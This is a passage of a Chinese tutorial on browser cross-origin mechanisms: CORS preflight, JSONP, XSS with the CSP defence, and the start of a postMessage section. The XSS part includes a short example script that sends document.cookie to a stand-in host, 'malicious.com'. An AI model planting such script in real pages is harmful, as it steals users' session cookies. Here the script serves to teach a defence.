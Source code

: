 缺点：
1. 存在兼容性问题，特别是 IE10 以下的浏览器。
2. 第一次发送非简单请求时会多一次请求。

### 为什么CORS要有预检请求呢？
* 减少非简单跨域请求对服务器的影响（开始时就提到，服务器有时候不想理睬跨域请求），比如PUT、DELETE请求可以直接新建或者修改、删除服务器中的资源。预检请求可以防止该情况发生。

* 减少服务器对于是否跨域的计算量。服务器会缓存预检请求的结果，通过`Access-Control-Max-Age`这个头部信息标明缓存多长时间。而且一次预检请求通过后，之后浏览器发送的请求只要在缓存期内，都只会发正式请求。节约了很多服务端的计算量。

## 页面中可以嵌入第三方资源 - JSONP

jsonp的原理就是利用`<script>`标签没有跨域限制，通过`<script>`标签src属性，发送带有callback参数的GET请求，服务端将接口返回数据拼凑到callback函数中，返回给浏览器，浏览器解析执行，从而前端拿到callback函数返回的数据。

最初的浏览器都是支持外部引用资源文件的。比如用`<script>`标签引入的js文件(`<script>`不受同源策略限制)。

不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。

<img src='./picture/safe/pic3.png' width=60%/>

这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的。

当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：
```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

以上就是一个非常典型的` XSS 攻击`。

为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 `CSP`。CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。通过这些手段就可以大大减少 XSS 攻击。

## postMessage跨域
`window.postMessage`方法是 HTML5 新引进的特性，可以使用它来向其它的 window 对象发送消息，无论这个 window 对象是属于同源或不同源。可以用它来解决 `dom 跨域`问题。
